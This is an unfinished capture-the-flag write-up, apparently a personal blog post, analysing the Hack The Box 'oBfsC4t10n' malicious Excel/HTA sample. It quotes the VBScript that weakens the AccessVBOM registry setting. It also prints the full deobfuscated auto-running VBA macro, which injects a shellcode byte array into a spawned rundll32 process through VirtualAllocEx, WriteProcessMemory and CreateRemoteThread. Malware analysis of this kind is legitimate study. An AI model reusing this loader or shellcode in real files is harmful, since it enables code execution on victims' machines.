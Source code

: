 ```yaml
---
title: HTB write up for the oBfsC4t10n[HARD] challenge
subtitle: security through obscurity?
description: write up for the oBfsC4t10n[HARD] challenge
published: true
datePublished: 1611316432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackthebox
  - oBfsC4t10n
  - htb
  - security
thumbnailPhoto: /htb/htb-obfuscation-thumb.jpg
bannerPhoto: /htb/htb-obfuscation.jpg
canonicalUrl:
---
```


# oBfsC4t10n _[HARD]_ `(WIP)`

This is my Write Up for the "oBfsC4t10n" challenge from Hack The Box.

We are given a _zip file_. after extraction we are presented with an **html** file telling us to download an **excel file**.
The excel file has been included in the html as a **base64 encoded** string, lets just save that info for later `base64.txt` in case we need it.

> decoding `base64.txt` actually gives us a valid excel like file.

After we checked the HTML and deemed the download save lets fetch the excel file.

## Enumeration

Instead of trying to open or analyze the file on our own machine, lets go ahead and upload it to **ANY.RUN**.

> [https://ANY.RUN](https://ANY.RUN) is a **online Sandbox** service that allows you to open various suspicious files or programms to fully analyze what would happen, without the danger.

After Testing the file with **ANY.RUN** we were able to see how the exploit would work and what would be done. So we tested on a **Windows 7** Machine, after opening the file, the exploit imediately startet to run:

![excel-file-report](/htb/obfuscation/file-report.png)

> 1. At first a temp file was created under `C:\Users\admin\AppData\Local\Temp\CVR40EB.tmp.cvr`
> 2. Then a what seems to be `visual basic script` executer was added here: `C:\Users\admin\AppData\Local\Temp\VBE\MSForms.exd`
> 3. followed by a `.hta` file with a funny name..: `C:\Users\admin\AppData\Local\Temp\LwTHLrGh.hta` <-- lemme guess thats the one.
> 4. it then makes use of `mshta.exe` to try and execute the `LwTHLrGh.hta` file.
> 5. then ANY.RUN stops executing the file.

![important files](/htb/obfuscation/file-modifications.png)

I went ahead and _downloaded_ the `MSForms.exd` as well as the `LwTHLrGh.hta` file so we can analyze them further.

## Analyzing `LwTHLrGh.hta`

> .hta is a propriatary file format used by microsoft, its called '**HT**ML **A**pplication' and supports HTML code as well as **Visual Basic** or **JScript**. This format was meant to be used by Internet Explorer.
>
> The **default file-association** for the .hta extension is the Microsoft HTML Application Host (**mshta.exe**). If you have not disabled or changed this file association, in effect the HTA file behaves like an executable when double-clicked. An **HTA runs** as a **fully trusted application** and as a result has a lot **more privileges than a normal HTML** file.

Sounds dangerous, nice!

So lets disect this bitch!

When opening the file we see it has a rather clear structure, a huge VB Script and **even comments**. How nice of the hacker not to obfuscate his code too much, thanks [@0xdf](https://twitter.com/0xdf_). ;-)

```jsx
"<html><head>

<script language="vbscript">

<!-- VB script here -->

</script></head></html>"
```

so naturally, since its practiacally all the code, we strip the vbcode out of the .hta to make it readable.

Thank god we know VB, otherwise this would be a pain from here on now. ;-) Thankfully, since the autor has left some comments, indicating how the attack works, we should be able to cope with it.

The very first thing he does is effectively creating a backup of the AccessVBOM key **if** it has been set before.

```vb
' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if
```

> "_Setting AccessVBOM to 1 allows to access the VBA Object Model_"

Then he 'weakens the target' by setting the AccessVBOM to 1, thus enabling all acces to VBA Object Model.

```VB
' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

Then he gets to the juicy part.
To Exploit the Security setting he just turned off, he creates a new Excel Workboo, with macros of course.
He then proceeds to add VBComponents to the Excel, allowing him to add an Assembly Code Module.

```VB
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ... 80 more lines...

```

In his last step this good boy restores the systems registry to its previous state.

```vb
' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

> xlmodule.CodeModule.AddFromString contains many obfuscated lines of assembly code, I deobfuscated it by printing it via VBS.

Here is the actualy assembly code payload:

```cpp
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

You can see the Variable myArray seems suspicous, when running the payload in Excel I get an error for 'myArray'

Im stuck here at the moment... I was told i would not need windows..

@ me on twitter [@0x0000005](https://twitter.com/0x0000005)

> This Post is marked as `WIP` and will be updated continously.
